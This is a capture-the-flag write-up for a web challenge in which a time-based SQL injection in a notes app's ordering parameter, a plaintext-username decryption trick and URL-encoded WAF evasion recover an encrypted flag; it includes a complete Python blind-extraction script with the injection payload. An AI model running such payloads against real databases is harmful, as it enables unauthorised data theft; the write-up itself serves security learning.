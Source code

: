 So last week I was able to play for a few hours with my team, once [Super Gusser](https://ctftime.org/team/130817/),  I joined Discord and found that already half of the web challenge siced :smile: ,  I chose this challenge as a start and my teammate [sapra](https://twitter.com/0xsapra) also joined.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334574-a2d19944-8a0e-4c2f-b549-4335e6aa067a.png" alt="main" >

First the challenge was very simple, you can create an account / log in and you can also post some notes.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334741-9024bcb3-221b-4816-9ae2-af0cc5520123.png" alt="main" >

Based on all of this and checking the source code which was a good hint for us rather than blindly trying to check all kinds of possible bugs :wink: .

Later, after reading the code and checking, `sapra` mentions that there is a possible SQL injection which was a time based SQLi in notes function..

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335060-2ffb3b5a-ce02-4f6f-b807-a2fb04b46e9a.png" alt="main" >

basically we can inject after `order by timestamp`, using this sqli we can leak all data on sqlite database including the flag (the flag was located in the` flagger` account note)

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335349-f515758e-69bf-4164-8207-bc0ab3059ad3.png" alt="main" >

But !! if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336000-7684f027-e9c4-4675-aac7-c823c074d2e4.png" alt="main" >

So the issue here, how we can decrypt the flag, even though we can leak it, as the encryption is strong enough and can't be exploited, which means the only way is to find out how we can make the app decrypt the flag for us

The real problem is that if we post a note with the flag leaked, it will be encrypted again and decrypted once, which means we won't be able to get the clear text, but there was a weakness in the code, exactly in the encryption function

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336496-33f556af-b438-44d7-ab7c-fb6bc8e3f32d.png" alt="main" >

As the application does not encrypt `'uuid', 'id', 'pk', 'username', 'password'` and it does store it in plaintext, we can use this part and create an account with username as encrypted flag and once we are logged in the flag will be decrypted as the app decrypts all content of the response

```
response_data = decrypt_data(proxy_request.content)
```

So what's left here is just leak the flag and decrypt it, but the last step was to bypass the easy waf that detects certain words.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336897-499aeed0-6b69-4d82-bdbd-2d7b9fa23290.png" alt="main" >

Using a simple encoding can do the job here, which means we have all the steps we need :)

1 - `Leak "flagger" account notes ( flag note )`

2 - `Create an account using flag as username`

3 - `Read the flag from the home page`


```
import requests
import time

cookies = {
    'session': '116c6bf2d2de45a8d4a1bdac5524fc01.b810785f36c37cc8d4cf48b55c0e45716dd7ccb38f80ac19a08f2a41371711a',
}
#ENCRYPT:SzJEVHVzRmhHaHZmU2pYak0yQVZzQT09OmUzOVBwcXNVWWdhMEw0YXpCVDV2WHRwYnBPRXFaSVpqMFpQRk1BMXNzODE1UGxIUXhwb0hLY2diNGd2VTRYYz06REpPTWk0S01pdmZ3cXVxNFBGcklTdz09
flag_enc = "ENCRYPT:"

pos = len(flag_enc) + 1

for x in range( pos, 200 ):
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/=":
        t1 = time.time()
        url = "https://7b000000c73b13b1628e0950-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=asc,(CASE%20WHEN%20(select%20substr((select%20body%20from%20notes%20where%20user=(select%20uuid%20from%20users%20where%20username='flagger'))," + str(x) + ",1)%20=%20'" + str(i) + "')%20THEN%2012=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))%20ELSE%20timestamp%20END)%20desc%23"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 0.9:
            flag_enc += i
            break        
    print flag_enc
```

And here is the FLAG : `ALLES!{American_scientists_said,_dont_do_WAFs!}`

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132345085-727ea1ae-5177-4d63-aa78-d4a8082a59b5.png" alt="main" >


